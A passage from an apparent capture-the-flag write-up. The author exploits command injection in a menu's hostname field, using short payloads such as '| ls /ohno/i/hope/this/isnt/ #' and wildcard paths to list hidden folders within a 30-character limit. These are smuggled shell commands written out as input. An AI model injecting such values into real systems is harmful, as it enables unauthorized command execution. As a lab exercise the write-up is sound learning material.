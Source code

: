 
From there, all folder seem normal, excepted `ctf` and `ohno`. We know that our flag is not inside `ctf` so `ohno` is our starting path for the flag.

Time to fail :)

I badly started to list folder inside `ohno` and so on... and i came at this point.

Final command used (due to 30 chars restriction) : `| ls /ohno/i/hope/this/isnt/ #` 

```bash
=== MENU ===
1. Set hostname
2. Reboot

Choice: 1
Enter new hostname (30 chars max): | ls /ohno/i/hope/this/isnt/ #
=== MENU ===
1. Set hostname
2. Reboot

Choice: 2
Rebooting...
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
17564611 too
Reboot complete
```

But... remember? Maximum 30 characters allowed as hostname... 

Note that the folder path are saying "oh no i hope this isnt too", too what... too long?? Huh??? Thanks to the creator to make us cry.

SO I USED MY LEET POWER TO...... fail again. Yeah...

I used the wildcard star character `*` to make the path shorter, and reached this point.

Final command used (due to 30 chars restriction) : `|ls /oh*/*/*/*/*/*/*/*/*/*/*/*/ #` 

```bash
=== MENU ===
1. Set hostname
2. Reboot

Choice: 1
Enter new hostname (30 chars max): |ls /oh*/*/*/*/*/*/*/*/*/*/*/*/ #
=== MENU ===
1. Set hostname
2. Reboot

Choice: 2
Rebooting...
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
17564618 lol
Reboot complete
```
